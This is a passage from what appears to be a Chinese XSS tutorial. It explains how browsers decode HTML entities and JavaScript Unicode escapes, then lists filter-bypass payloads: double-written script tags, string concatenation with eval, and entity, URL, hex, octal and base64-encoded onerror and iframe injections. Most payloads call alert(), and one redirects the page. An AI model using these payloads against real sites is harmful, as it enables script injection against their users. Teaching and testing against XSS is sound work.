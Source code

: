 显示结果 | 描述 | 实体名称 | 实体编号
| - | - | - | - |
< | 小于号 | &lt; | &#60;
| > | 大于号 | &gt; | &#62;

浏览器对HTML解码之后就开始解析HTML，将标签转化为内容树中的DOM节点，此时识别标签的时候，HTML解析器是无法识别那些被实体编码的内容的，只有建立起DOM树，才能对每个节点的内容进行识别，如果出现实体编码，则会进行实体解码，只要是DOM节点里属性的值，都可以被HTML编码和解析。

> tip:所以在PHP中，使用htmlspecialchars()函数把预定义的字符转换为HTML实体，只有等到DOM树建立起来后，才会解析HTML实体，起到了XSS防护作用。

- JS解码（只支持UNICODE）

当HTML解析产生DOM节点后，会根据DOM节点来做接下来的解析工作，比如在处理诸如`<script> <style>`这样的标签，解析器会自动切换到JS解析模式，而src、 href 后边加入的javascript 伪URL，也会进入JS 的解析模式。

比如`<a href="javascript:alert('<\u4e00>')">test</a>`，javascript 出发了JS 解释器，JS会先对内容进行解析，里边有一个转义字符\u4e00，前导的 \u 表示他是一个unicode 字符，根据后边的数字，解析为一，于是在完成JS的解析之后变成了：href="javascript:alert('<一>')">test

## 3.2 绕过

### 3.2.1 关键字被过滤

#### 3.2.1.1 双写绕过

```html
<scrscriptipt>alert('xss')</scrscriptipt>
```

#### 3.2.1.2 字符拼接

```html
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
<script>top["al"+"ert"](`xss`);</script>
```

#### 3.2.1.3 编码绕过

```html
# Unicode 编码
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">
<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">

# url 编码
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

# ascii 码
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">

# hex 码
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

# 八进制
<img src=x onerror=alert('\170\163\163')>

# base64
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```
